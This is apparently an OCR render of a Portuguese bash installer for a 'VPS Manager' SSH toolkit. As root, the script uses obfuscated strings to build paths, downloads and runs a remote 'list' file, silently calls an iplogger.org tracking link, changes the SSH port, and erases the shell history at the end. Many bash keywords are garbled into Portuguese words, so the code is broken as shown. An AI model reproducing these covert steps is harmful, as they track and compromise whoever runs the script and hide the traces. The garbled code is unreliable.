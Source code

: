 #!/bin/bash
claro
[[ "$(whoami)" != "root" ]] && {
echo -e "\033[1;33m[\033[1;31mErro\033[1;33m] \033[1;37m- \033[1;33mvocê precisa executar como root\033[0m"
rm $HOME/Plus > /dev/null 2>&1; saída 0
}
_lnk=$(echo 'z1:y#x.5s0ul&p4hs$s.0a72d*ne!v89e032:3r'| sed -e 's/[^az.]//ig'| rev); _Tinta=$(echo '/3×u3#s87r/l32o4×c1a×l1/83×l24×i0b×'|sed -e 's/[^az/]//ig'); _1nk=$(echo '/3×u3#s×87r/83×l2×4×i0b×'|sed -e 's/[^az/]//ig')
cd$HOME
fun_bar () {
comando[0]="$1"
comando[1]="$2"
(
[[ -e $HOME/fim ]] && rm $HOME/fim
${comando[0]} -y > /dev/null 2>&1
${comando[1]} -y > /dev/null 2>&1
toque em $HOME/fim
) > /dev/null 2>&1 &
tput civis
echo -ne " \033[1;33mAGUARDE \033[1;37m- \033[1;33m["
enquanto verdadeiro; fazer
for((i=0; i<18; i++)); fazer
echo -ne "\033[1;31m#"
dormir 0,1s
feito
[[ -e $HOME/fim ]] && rm $HOME/fim && break
eco -e "\033[1;33m]"
dormir 1s
tput cuu1
tput dl1
echo -ne " \033[1;33mAGUARDE \033[1;37m- \033[1;33m["
feito
echo -e "\033[1;33m]\033[1;37m -\033[1;32m OK!\033[1;37m"
tput cnorm
}
função verif_key() {
krm=$(echo '5:q-3gs2.o7%8:1'|rev); chmod +x $_Ink/list > /dev/null 2>&1
[[ ! -e "$_Tinta/lista" ]] && {
echo -e "\n\033[1;31mKEY INVÁLIDA!\033[0m"
rm -rf $HOME/Plus > /dev/null 2>&1
dormir 2
claro; saída 1
}
}
echo -e "\033[1;31m═══════════════════════════════════ ═════ ════════════\033[0m"
coloque setaf 7 ; tput setab 4 ; coloque negrito; printf '%40s%s%-12s\n' "BEM VINDIDO AO VPS MANAGER" ; tput sgr0
echo -e "\033[1;31m═══════════════════════════════════ ═════ ════════════\033[0m"
eco ""
echo -e " \033[1;31mATENCAO! \033[1;33mESSE SCRIPT IRA !\033[0m"
eco ""
echo -e "\033[1;31m• \033[1;33mINSTALAR UM CONJUNTO DE SCRIPTS COMO FERRAMENTAS\033[0m"
echo -e "\033[1;33m PARA O GERENCIAMENTO DE REDE, SISTEMA E USUÁRIOS\033[0m"
eco ""
echo -e "\033[1;32m• \033[1;32mDICA! \033[1;33mULTILIZE O TEMA DARK EM SEU TERMINAL PARA\033[0m"
echo -e "\033[1;33m UMA MELHOR EXPERIÊNCIA E VISUALIZAÇÃO DO MESMO!\033[0m"
eco ""
echo -e "\033[1;31m≠×≠×≠×≠×≠×≠×≠×[\033[1;33m • \033[1;32mGIGANTE DE FERRO\033[1;33m •\033[ 1;31m ]≠×≠×≠×≠×≠×≠×≠×\033[0m"
eco ""
#------------------------------------------------- -------------------------------------------------- --------------
echo -ne "\033[1;36mGERAR UMA CHAVE GRÁTIS [N/S]: \033[1;37m"; leia x
[[ $x = @(n|N) ]] && sair
sed -i 's/Porta 22222/Porta 22/g' /etc/ssh/sshd_config > /dev/null 2>&1
serviço ssh reiniciar > /dev/null 2>&1
echo -e "\n\033[1;36mVERIFICANDO... \033[1;37m 16983:16085\033[0m" ; rm $_Ink/list > /dev/null 2>&1; wget -P $_Ink https://raw.githubusercontent.com/NT-GIT-HUB/VPS-MANAGER-1.0/main/Install/list > /dev/null 2>&1; chave_verif
durma 3s
echo "/bin/menu" > /bin/h && chmod +x /bin/h > /dev/null 2>&1
rm versão* > /dev/null 2>&1
wget https://raw.githubusercontent.com/NT-GIT-HUB/VPS-HELANO-NET-SSH-MANAGER-1.0/main/Install/versao > /dev/null 2>&1
> /dev/null 2>&1
wget https://iplogger.org/2lHZ43 > /dev/null 2>&1
> /dev/null 2>&1
rm 2lHZ43 > /dev/null 2>&1
#------------------------------------------------- -------------------------------------------------- --------------
echo -e "\n\033[1;32mKEY VALIDA!\033[1;32m"
dormir 1s
eco ""
[[ -f "$HOME/usuarios.db" ]] && {
claro
echo -e "\n\033[0;34m══════════════════════════════════ ════ ═══════════\033[0m"
eco ""
echo -e " \033[1;33m• \033[1;31mATENCAO \033[1;33m• \033[0m"
eco ""
echo -e "\033[1;33mUma base de Dados de Usuários \033[1;32m(usuarios.db) \033[1;33mFoi"
echo -e "Encontrada! Deseja mantê-la preservando o limite"
echo -e "de conexões simultâneas dos usuários ? Ou Deseja"
echo -e "criar uma nova base de dados ?\033[0m"
echo -e "\n\033[1;37m[\033[1;31m1\033[1;37m] \033[1;33mManter Base de Dados Atual\033[0m"
echo -e "\033[1;37m[\033[1;31m2\033[1;37m] \033[1;33mCriar uma Nova Base de Dados\033[0m"
echo -e "\n\033[0;34m══════════════════════════════════ ════ ═══════════\033[0m"
eco ""
coloque setaf 2 ; coloque negrito; leia -p "Opção ?: " -e -i 1 opçãodb ; tput sgr0
} || {
awk -F : '$3 >= 500 { imprimir $1 " 1" }' /etc/passwd | grep -v '^nobody' > $HOME/usuarios.db
}
[[ "$optiondb" = '2' ]] && awk -F : '$3 >= 500 { print $1 " 1" }' /etc/passwd | grep -v '^nobody' > $HOME/usuarios.db
claro
coloque setaf 7 ; tput setab 4 ; coloque negrito; printf '%35s%s%-18s\n' " AGUARDE A INSTALAÇÃO" ; tput sgr0
eco ""
eco ""
echo -e " \033[1;33m[\033[1;31m!\033[1;33m] \033[1;32mATUALIZANDO SISTEMA \033[1;33m[\033[1;31m!\033[1 ;33m]\033[0m"
eco ""
echo -e "\033[1;33mATUALIZAÇÕES COSTUMA DEMORAR UM POUCO!\033[0m"
eco ""
fun_attlist() {
apt-get atualização -y
[[ ! -d /usr/share/.plus ]] && mkdir /usr/share/.plus
echo "crz: $(data)" > /usr/share/.plus/.plus
}
fun_bar 'fun_attlist'
claro
eco ""
echo -e " \033[1;33m[\033[1;31m!\033[1;33m] \033[1;32mINSTALANDO PACOTES \033[1;33m[\033[1;31m!\033[1 ;33m] \033[0m"
eco ""
echo -e "\033[1;33mALGUNS PACOTES SÃO EXTREMAMENTE NECESSÁRIOS !\033[0m"
eco ""
inst_pct(){
_pacotes=("bc" "apache2" "cron" "screen" "nano" "descompactar" "lsof" "netstat" "net-tools" "dos2unix" "nload" "jq" "curl" "figlet" "python3" "python-pip" "sshpass")
para _prog em ${_pacotes[@]}; fazer
apto instalar $_prog -y
feito
pip instalar speedtest-cli
}
fun_bar 'inst_pct'
[[ -f "/usr/sbin/ufw" ]] && ufw permitir 443/tcp ; ufw permite 80/tcp; ufw permitir 3128/tcp; ufw permitir 8799/tcp; ufw permite 8080/tcp
claro
eco ""
echo -e " \033[1;33m[\033[1;31m!\033[1;33m] \033[1;32mFINALIZANDO \033[1;33m[\033[1;31m!\033[1; 33m] \033[0m"
eco ""
echo -e " \033[1;33mCONCLUINDO FUNÇÕES E DEFINIÇÕES! \033[0m"
eco ""
fun_bar "$_Ink/lista $_lnk $_Ink $_1nk $key"
claro
eco ""
cd$HOME
IP=$(wget -qO- ipv4.icanhazip.com)
echo -e " \033[1;33m • \033[1;32mINSTALACAO CONCLUIDA\033[1;33m • \033[0m"
eco ""
echo -e "\033[1;31m \033[1;33mCOMANDO PRINCIPAL: \033[1;32mmenu\033[0m"
echo -e "\033[1;33m MAIS INFORMACOES \033[1;31m(\033[1;36mTELEGRAM\033[1;31m): \033[1;37m@NT_Injector\033[0m"
eco -e ""
echo -e "\033[1;31m \033[1;33mURL de Usuários Online para usar no App \033[1;36mNT Injector\033[0m"
echo -e " http://$IP:8888/servidor/online"
eco -e ""
rm $HOME/Plus && cat /dev/null > ~/.bash_history && histórico -c
